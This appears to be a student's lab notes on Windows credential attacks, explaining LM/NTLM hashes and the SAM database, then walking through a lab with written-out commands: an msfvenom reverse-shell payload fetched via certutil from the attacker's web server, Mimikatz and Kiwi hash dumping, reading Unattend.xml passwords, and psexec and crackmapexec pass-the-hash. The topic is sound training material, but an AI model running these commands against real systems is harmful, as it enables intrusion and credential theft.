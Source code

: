 
---
## Windows Password Hashes

The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.

Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).

Windows versions up to Windows server 2003 utilize two different types of hashes:
- **LM**
- **NTLM** 

Windows disabled LM hashing and utilized NTLM hashing from Vista onwards.

### SAM (Security Account Manager) Database

SAM is the database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.

The SAM database file cannot be copied while the operating system is running.

The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.

In modern versions of Windows, the SAM database is encrypted in syskey.

**Note: Elevated Administrative privileges are required in order to access and interact with the LSASS process .**

### LM (LanMan)

LM is the default hashing algorithm that was implemented by Windows OS prior to NT 4.0.

The algorithm is used to hash user passwords, and the hashing process can be broken down into the following steps:
- The password is broken into two seven-character chunks.
- All characters are then converted into uppercase.
- Each chunk is then hashed separately with the DES algorithm.

LM hashing is generally considered to be a weak protocol and can be easily cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes.

### NTLM 

NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.

From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.

When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.

NTLM improves upon LM in the following ways:
- Does not split the hash into two chunks.
- Case sensitive
- Allows the user of symbols and unicode characters.

---

## Searching For Passwords In Windows Configuration Files


Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.

This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.

If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target. 

The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system info:
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Autounattendxml

The password stored in the Unattended Windows Setup configuration file may be encoded in base64.

In this particular Lab, we have access directly to the target machine.

We will create a msf venom payload for a 64bit system:`msfvenom -p windows/x64/meterpreter/reverse_tcp -LHOST=(our IP address) LPORT=(port number) -f exe > (filename).exe`

After that, we will host a simple http server on our machine running on port 80 using python:`python3 -m http.server 80` 

Now, we switch to our target machine and we open a cmd window and we type:`certutil -urlcache -f http://(our IP)/payload.exe payload.exe`

This will upload the file we created: "payload.exe" to a file under the same name.

Now, we will run msf and use multi/handler and set the payload the same as the payload in msfvenom with the same options for LPORT and LHOST.

We run the exploit in msf, then we switch back to the target machine and we execute the payload file.

Now, we have a meterpreter session in msf.

Once, we have a meterpreter session, we can search for the Unattend.xml file:`search -f unattend.xml`
We will get 3 matches. We are interested in the one under "Panther" directory.

We download it:`download (path to file)`

After viewing its content on our local machine, we will see the password encoded using base64 along side with the username of the administrator account. We can reverse this encoding using the online tool "cyberchef ".
The password is:"Admin@123

We will use psexec.py to login as an administrator: `python3 ./psexec.py (username):(password)@(target IP)`

We are logged in as Administrator.

---

## Dumping Hashes with Mimikatz

Mimikatz allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.

Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.

**We can utilize the pre-compiled Mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi**

**Note: Mimikatz require elevated privileges to run correctly**.

After having a meterpreter session with elevated privileges, we can load the Kiwi module and type help to get the commands that we can use. To dump the SAM database using Kiwi:`lsa_dump_sam`
**Note: Kiwi must run in a SYSTEM process**

Alternatively, we can upload mimikatz.exe to the target host and executed it there.

After executing the Mimikatz file, we can dump SAM database by:`lsadump::sam`

Some Windows machines are configured to store logon passwords in clear text and we can use Mimikatz to show us that:`sekurlsa::logonpasswords`

---

## Pass-The-Hash Attacks

Pass-The-Hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target.

We can use multiple tools to facilitate a Pass-The-Hash attack:
- Metasploit PsExec module (exploit/windows/smb/psexec)
- Crackmapexec

This technique will allow us to obtain access to the target system via valid credentials as opposed to obtaining access via service exploitation.

**The PsExec module can be used by setting the SMB_Pass option with the NTLM and the LM hash, and the SMB_User with the username.** 

**We get the NTLM and the LM hash from lsass.exe process and using the command `hashdump`**
The NTLM and LM hash will be in the format of: (LMHash:NTLMHash)
like so: aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d


We can also use crackmapexec tool to execute malicious commands. However, the tool uses only the NTLM hash:`crackmapexec smb (target IP) -u (username) -H "(NTLM Hash)" -x "(commands)"`